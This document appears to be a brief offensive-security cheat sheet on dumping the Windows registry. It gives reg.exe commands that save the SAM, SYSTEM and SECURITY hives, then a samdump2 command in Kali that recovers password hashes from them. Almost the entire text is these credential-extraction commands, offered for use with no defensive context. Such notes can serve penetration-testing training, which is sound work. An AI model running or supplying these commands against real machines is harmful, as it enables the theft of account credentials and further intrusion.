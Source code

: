 # Dumping Windows Registry Files

## Extract SAM, SYSTEM, SECURITY Files
Run the following commands:
```bash
reg.exe save hklm\sam sam.sav
reg.exe save hklm\system system.sav
reg.exe save hklm\security security.sav
```

 - The files will be saved to your current working directory.


## Recover Hashes in Kali

Run the following command in the terminal:
```bash
samdump2 system.sav sam.sav
```